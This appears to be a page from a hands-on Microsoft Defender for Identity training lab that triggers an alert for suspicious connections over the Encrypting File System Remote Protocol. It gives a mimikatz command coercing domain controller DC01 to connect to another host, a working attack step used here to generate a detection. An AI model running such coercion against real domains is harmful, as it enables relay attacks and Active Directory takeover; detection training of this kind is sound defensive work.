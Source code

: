 ```yaml
---
title: '1. Suspicious network connection over Encrypting File System Remote Protocol'
layout: default
nav_order: 1
parent: 'Day 2: Attack, detect, and investigate. Exercise 5: Lateral movement alerts'
---
```


# Task 5.1: Suspicious network connection over Encrypting File System Remote Protocol

This detection is triggered when an attacker tries to take over an Active Directory domain by exploiting a flaw in the Encrypting File System Remote (EFSRPC) Protocol.

Tools used in this test: **[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)**.

1. Switch to the **WIN5 RDP session**, logged in as MSMDI\JeffL.

1. In the Command window, run:

    ```CMD-wrap
    c:\Tools\mimikatz_trunk\x64\mimikatz.exe "privilege::debug" "misc::efs /server:DC01 /connect:10.0.0.6 /noauth" "exit"
    ```

    {: .warning }
    > You can safely ignore any errors that appear when running the commands.

For more information, review [Suspicious network connection over Encrypting File System Remote Protocol (external ID 2416)](https://learn.microsoft.com/en-us/defender-for-identity/lateral-movement-alerts#suspicious-network-connection-over-encrypting-file-system-remote-protocol-external-id-2416 "Suspicious network connection over Encrypting File System Remote Protocol").
